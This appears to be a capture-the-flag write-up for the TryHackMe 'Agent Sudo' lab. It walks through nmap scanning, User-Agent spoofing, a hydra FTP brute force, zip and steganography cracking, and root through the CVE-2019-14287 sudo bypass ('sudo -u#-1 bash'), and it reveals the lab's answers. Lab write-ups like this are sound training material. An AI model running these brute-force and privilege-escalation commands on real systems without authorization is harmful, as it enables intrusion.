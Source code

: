 ```yaml
---
title: Walkthrough - Agent Sudo
published: true
---
```


You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

![0xskar](/assets/agent-sudo01.png)

Enumerate/Exploit/Brute-Force/Hash-Cracking

* * *

## Enumerate

##   How many open ports?

- ``sudo nmap -sS -p- -T4 10.10.97.21 -vvv``
- ``sudo nmap -sC -sV -O -p21,22,80 10.10.97.21``

```shell
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

##   How you redirect yourself to a secret page?

- Changing the User-Agent header to C will let us see ``http://10.10.97.21/agent_C_attention.php`` where we get some more hints

> Attention chris,

> Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

> From,
> Agent R 

##   What is the agent name?

- Chris

* * * 

## Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

##   FTP password

- ``hydra -l chris -P /usr/share/seclists/Passwords/rockyou.txt 10.10.97.21 ftp``
- ``mget *.*``

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Agent-Sudo]
└─$ cat To_agentJ.txt                                                                                  
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- ``binwalk -e cutie.png``
- ``unzip cutie.png``

##   Zip file password

- ``ssh2john 8702.zip > 8702.hash``
- ``john 8702.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt``

##   steg password

- steg is hiddin inside the other image
- ``stegseek cute-alien.jpg /usr/share/seclists/passwords/rockyou.txt``

```shell
cat cute-alien.jpg.out 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

##   Who is the other agent (in full name)?

- james  

##   SSH password

- hackerrules!

* * * 

## Hash cracking and brute-force

##   What is the user flag?

![0xskar](/assets/agent-sudo02.png)

##   What is the incident of the photo called?

- ``scp james@10.10.53.61:/home/james/Alien_autospy.jpg .``
- google reverse image search > images > upload an image
- foxnews
- Roswell alien autopsy

* * * 

## Privilege Escalation

- sudo -l gives us ``(ALL, !root) /bin/bash``
- linpeas give us 
- sudo -V give us 1.8.21p2
- [https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability](https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability)
- ``sudo -u#-1 bash``

* * * 